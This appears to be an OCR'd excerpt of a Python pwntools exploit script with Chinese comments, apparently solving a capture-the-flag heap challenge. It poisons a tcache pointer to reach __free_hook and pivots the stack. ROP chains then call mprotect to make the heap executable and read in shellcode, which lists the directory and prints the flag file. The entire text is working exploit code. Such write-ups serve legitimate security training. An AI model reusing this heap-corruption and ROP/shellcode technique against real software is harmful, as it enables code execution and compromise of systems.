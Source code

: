 ```plain
    # heap_addr + 0x1f0: pop rsp, &new_stack
    edit(2, p64(pop_rsp)+p64(new_stack))
    edit(1, p64(new_stack))

    add(0) # heap_addr + 0x240
    edit(0, p64(hijack_rsp)+p64(heap_addr+0x40)) 
    # 第一个对应的就是拷贝到 free_hook 的 gadget 地址，执行 gadget
    # 第二个对应的就是 mov rdx, qword ptr [rdi+8]

    add(1)
    add(2)
    delete(1)
    delete(2)
    poc = ((heap_addr+0x280)>>12) ^ (free_hook)
    edit(2, p64(poc))
    add(1)

    add(2)

    filename_addr = new_stack + 0x8 * 27
    # 第一段 ROP：执行 mprotect，将 heap 内存区域变成 RWX
    poc = b''
    poc += p64(pop_rdi)
    poc += p64(heap_addr)
    poc += p64(pop_rsi)
    poc += p64(0x4000)
    poc += p64(pop_rdx)
    poc += p64(7)
    poc += p64(libc.sym['mprotect'])

    # 第二段 ROP：将 shellcode 写入 heap 并跳转执行
    poc += p64(pop_rdi)
    poc += p64(0)
    poc += p64(pop_rsi)
    poc += p64(heap_addr)
    poc += p64(pop_rdx)
    poc += p64(0x100)
    poc += p64(libc.sym['read'])
    poc += p64(heap_addr)
    s(poc)

    # 获取 flag 文件名
    shellcode = b''
    shellcode += asm(shellcraft.open('./'))
    shellcode += asm(shellcraft.getdents64(3, read_buf, 0x400))
    shellcode += asm(shellcraft.write(1,read_buf, 0x400))
    shellcode += asm('''
        mov rdi, 0; mov rsi, 0x%x;mov rdx, 0x100;mov rax, 0; syscall; push rsi; ret;
        ''' % (heap_addr+0x100))

    s(shellcode)
    if local:
        r()
        filename = '/flag'
    else:
        ru(b'haha_')
        filename = 'haha_'+rr(10).decode()
        r()
        r()

    shellcode = asm(shellcraft.cat(filename))
    s(shellcode)
    log.success('flag: %s', ru(b'}').decode())
```